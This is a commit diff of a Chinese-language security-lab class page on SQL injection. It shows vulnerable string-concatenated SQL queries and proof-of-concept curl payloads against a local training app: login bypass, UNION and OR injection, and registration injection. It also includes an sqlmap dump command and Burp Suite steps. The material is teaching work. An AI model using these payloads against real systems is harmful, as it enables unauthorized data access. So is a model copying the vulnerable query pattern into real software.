

Before and after one commit to mcc0624/AI-Security-Lab, a Markdown page: .claude/class/day-03-sql-injection.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: add day-03 sql injection class doc with verified POC

````diff
--- a/.claude/class/day-03-sql-injection.md
+++ b/.claude/class/day-03-sql-injection.md
@@ -80,71 +76,59 @@ def add_user(username, password, email, phone):
 
-| 漏洞 | 根本原因 | 危害 |
-|------|---------|------|
-| 万能密码登录 | 字符串拼接 SQL，`OR '1'='1'` 绕过 | 无需密码登录任意账号 |
-| UNION 注入 | 搜索功能未过滤，可 UNION 查询 | 窃取所有数据库数据 |
-| 注册注入 | INSERT 语句也拼接 | 篡改数据库内容 |
-| 盲注风险 | 无任何输入过滤 | 可逐字符猜解数据 |
+### 漏洞 1：字符串拼接 SQL 查询
+
+注册和搜索功能中，用户输入直接拼接到 SQL 语句中：
+
+```python
+# 注册 - 字符串拼接
+query = f"INSERT INTO users (username, password, email, phone) VALUES ('{username}', '{password}', '{email}', '{phone}')"
+
+# 搜索 - 字符串拼接
+query = f"SELECT * FROM users WHERE username LIKE '%{keyword}%' OR email LIKE '%{keyword}%'"
+```
+
+**危害**：用户输入中的特殊字符（如单引号 `'`）会改变 SQL 语句的结构，导致任意 SQL 命令执行。
+
+### 漏洞 2：无任何输入过滤
+
+所有用户输入直接传入 SQL 语句，没有做任何转义或过滤。
+
+### 漏洞 3：搜索结果有回显
+
+搜索结果直接以表格形式展示在页面上，攻击者可以通过 UNION 注入获取任意数据。
 
 ---
 
 ## 四、POC 代码
 
-### POC 1：万能密码登录
-
-```bash
-# 使用 SQL 注入绕过登录验证
-curl http://127.0.0.1:5000/login \
-  -d "username=admin' OR '1'='1&password="
-```
-
-**预期结果**：即使密码为空，也能以 admin 身份登录成功。
-
-### POC 2：搜索功能 UNION 注入
+### POC 1：UNION 注入获取任意数据
 
 ```bash
 # 先登录获取 session
-curl http://127.0.0.1:5000/login \
-  -d "username=admin&password=admin123" \
-  -c /tmp/cookies.txt
+curl http://127.0.0.1:5000/login -d "username=admin&password=admin123" -c /tmp/cookies.txt
 
-# UNION 注入：从 users 表提取所有数据
-curl "http://127.0.0.1:5000/search?keyword=' UNION SELECT 1,'hacked','pwned','hack@x.com','13800000000','admin',99999 --" \
-  -b /tmp/cookies.txt | grep "hacked"
+# UNION 注入：向搜索结果的表中插入自定义数据
+curl "http://127.0.0.1:5000/search?keyword=%27%20UNION%20SELECT%201,%27inj%27,%27inj@x.com%27,%27138%27--" -b /tmp/cookies.txt | grep "inj"
 ```
 
-**预期结果**：搜索结果中出现攻击者伪造的 `hacked` 用户。
+**预期输出**：搜索结果中出现 "inj" 用户名。
 
-### POC 3：SQLMap 自动化注入
+### POC 2：OR 注入搜索全部用户
 
 ```bash
-# 获取 session cookie
-SESSION=$(curl http://127.0.0.1:5000/login \
-  -d "username=admin&password=admin123" \
-  -c - | grep session | awk '{print $NF}')
+# OR 注入：让 WHERE 条件永远为真，返回所有用户
+curl "http://127.0.0.1:5000/search?keyword=%27%20OR%20%271%27%3D%271" -b /tmp/cookies.txt
+```
 
-# SQLMap 自动检测并利用
-sqlmap -u "http://127.0.0.1:5000/search?keyword=admin" \
-  --cookie="session=$SESSION" \
-  --batch \
-  --dump
+**预期输出**：显示数据库中所有用户，包括 admin、alice 和其他注册用户。
+
+### POC 3：注册功能 SQL 注入
+
+```bash
+# 注册时注入 SQL，在用户名中插入特殊字符
+curl http://127.0.0.1:5000/register -d "username=hacker', 'pass', 'h@x.com', '123')--&password=irrelevant"
 ```
 
 ---
 
-## 五、POC 代码测试方法（Burp Suite + SQLMap）
+## 五、Burp Suite 测试方法
 
-### 方法 1：手动测试（Burp Suite）
-
-1. **拦截搜索请求**
-   - 登录后，在搜索框输入 `admin`
-   - Burp 中拦截到 `GET /search?keyword=admin`
-   - 发送到 Repeater
-
-2. **测试注入点**
-   - 修改 keyword 参数为：`admin' OR '1'='1`
-   - 如果返回更多结果，说明存在注入
-
-3. **测试 UNION 注入**
-   - 修改为：`' UNION SELECT 1,2,3,4,5,6,7 --`
-   - 观察结果中是否出现 `2,3,4` 等数字
-
````
Also changed, not shown: other parts of .claude/class/day-03-sql-injection.md (+131 -166 lines).
